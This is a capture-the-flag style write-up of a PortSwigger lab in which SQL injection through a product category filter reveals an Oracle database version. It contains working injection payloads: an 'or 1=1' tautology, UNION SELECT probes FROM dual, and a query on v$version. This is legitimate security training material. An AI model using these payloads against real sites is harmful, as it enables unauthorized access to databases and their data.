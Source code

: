 
# SQL injection attack, querying the database type and version on Oracle

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

Hint: On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual

---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/examining-the-database

- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------


We see there are 2 values displayed in the table, the description and the content of the post:



![img](images/SQL%20injection%20attack,%20querying%20the%20database%20type%20and%20version%20on%20Oracle/1.png)


We find these payload are valid to display the 4 posts in Gifts and the second all the items:

```
/filter?category=Gifts'--
/filter?category=Gifts'+or+1=1--
```

Also, that there are 2 columns returned by the query and we can do a UNION attack with the payload:

```
/filter?category=Gifts'+union+all+select+NULL,NULL+FROM+dual-- 
```

We are adding the “FROM dual” because it is necessary in Oracle.

To display the version we need to execute one of these:

```
SELECT banner FROM v$version
SELECT version FROM v$instance
```

```
/filter?category=Gifts'+union+all+select+'1',banner+FROM+v$version-- 
```



![img](images/SQL%20injection%20attack,%20querying%20the%20database%20type%20and%20version%20on%20Oracle/2.png)

With v$instance the server returns an error message.